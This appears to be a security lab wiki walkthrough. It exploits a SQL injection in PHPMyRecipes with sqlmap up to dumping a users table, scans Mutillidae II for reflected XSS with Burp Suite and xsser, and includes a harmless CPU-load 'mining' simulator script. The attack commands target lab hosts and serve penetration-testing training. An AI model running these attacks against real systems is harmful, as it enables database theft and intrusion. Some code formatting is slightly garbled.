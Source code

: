# Verifying PHPMyRecipes

Step 1: Inspect the web application.

![phpMyRecepies](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/1.jpeg?raw=true)

Step 2: Search on google **“PHPMyRecipes sql injection”** and look for publically
available exploits.

![phpMyRecepies google](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/2.jpeg?raw=true)

The exploit db link contains a python script which can be used to exploit the SQL
Injection vulnerability.
Exploit DB Link: https://www.exploit-db.com/exploits/

![phpMyRecepies search](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/3.jpeg?raw=true)

Step 3: Find the SQL Injection payload using sqlmap.
Analysis of the python script reveals that the “words_exact” parameter sent in
POST request to the web page **“dosearch.php”** webpage is vulnerable.

**Vulnerable web page**: /dosearch.php

**Vulnerable parameter**: words_exact

**Command**: 
```bash
sqlmap -u ""http://demo.ine.local/dosearch.php"" --data
"words_exact=" -p words_exact --method POST
```

Enter the following answer when asked for questions.
- **“Y”** for “Do you want to skip test payloads specific for other DBMses?”
- **“Y”** for “do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values?”
- **“N”** for “Do you want to keep testing the others (if any) ?”

![Sqlmap 1](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/4.jpeg?raw=true)


![Sqlmap 2](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/5.jpeg?raw=true)

## Exfiltrating database names

**Command**:
```bash
sqlmap -u ""http://demo.ine.local/dosearch.php"" --data
"words_exact=" -p words_exact --method POST –dbs
```

![Sqlmap 3](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/6.jpeg?raw=true)

![Sqlmap 4](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/7.jpeg?raw=true)

## Listing the table names

**Command**:
```bash
sqlmap -u ""http://demo.ine.local/dosearch.php"" --data
"words_exact=" -p words_exact --method POST -D recipes --tables
```

![Sqlmap 5](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/8.jpeg?raw=true)

![Sqlmap 6](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/9.jpeg?raw=true)

## Choosing an interesting table 

![Sqlmap 7](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/10.jpeg?raw=true)

![Sqlmap 8](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/11.jpeg?raw=true)

## Listing the table data

**Command**:
```bash
sqlmap -u ""http://demo.ine.local/dosearch.php"" --data
"words_exact=" -p words_exact --method POST -D recipes -T users --dump
```

![Sqlmap 9](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/12.jpeg?raw=true)

![Sqlmap 10](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/13.jpeg?raw=true)

# Verifying Mutillidae II

Step 1: Access the web application using firefox.

**Command**: 
```bash
firefox [http://192.94.37.](http://192.94.37.)
```

![OWASP Multillidae 1](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/14.jpeg?raw=true)

Step 2: Navigate to the XSS DNS lookup webpage.

**Command**:
```bash
firefox [http://192.94.37.3/index.php?page=dns-lookup.php](http://192.94.37.3/index.php?page=dns-lookup.php)
```

![OWASP Multillidae 2](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/15.jpeg?raw=true)

Step 3: Enter any text to `Hostname/IP` textfield and click on `Lookup DNS`

![OWASP Multillidae 3](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/16.jpeg?raw=true)

The entered value is reflected back on the web page.

Step 4: Check the usage of xsser.

**Command**: 
```bash
xsser --help
```

![Xsser](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/17.jpeg?raw=true)

Step 5: Configure firefox to use burp suite proxy.

![FoxyProxy](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/18.jpeg?raw=true)

Step 6: Start burp suite.

![Burp Suite 1](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/19.jpeg?raw=true)

Step 7: Enter any text to “ Hostname/IP ” textfield and click on "Lookup DNS". The
request will be intercepted by burp suite.

![Burp Suite 2](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/20.jpeg?raw=true)

Step 8: Pass the URL to XSSER. Replace `HelloWorld` with `XSS` , this is done so that XSSer will substitute payload in place of `XSS` string.

**Command**:
```bash
xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

![XSS](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/21.jpeg?raw=true)

The output confirms that the target is vulnerable.

# CPU Mining

Step 1: We need to create a script c**pu_mining_sim.py**

```python
```python
import math
import multiprocessing
import argparse
from itertools import count

def cpu_intensive_task():
    for n in count(start=1):
        math.factorial(100000)
        math.exp(n) ** math.pi
        sum(math.sqrt(i) for i in range(1000000))

def main(num_processes):
    print(f"Starting CPU stress test with {num_processes} processes...")
    print("Warning: This will significantly increase CPU usage!")
    print("Press Ctrl+C to stop\n")

    pool = multiprocessing.Pool(processes=num_processes)

    try:
        pool.map_async(lambda x: cpu_intensive_task(), range(num_processes))
        while True:
            pass  # Keep main thread alive
    except KeyboardInterrupt:
        print("\nStopping CPU stress test...")
        pool.terminate()
        pool.join()

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='CPU Mining Simulator')
    parser.add_argument('-p', '--processes', type=int,
                        default=multiprocessing.cpu_count(),
                        help='Number of parallel processes (default: all cores)')
    args = parser.parse_args()

    main(args.processes)
```

Step 2: Perform the script

**Command**:
```bash
python cpu_mining_sim.py
```

![python](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/22.jpeg?raw=true)

Step 3: Check the CPU

**Command**: 
```bash
htop
```

![htop](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Jose%20Zamora/images/23.jpeg?raw=true)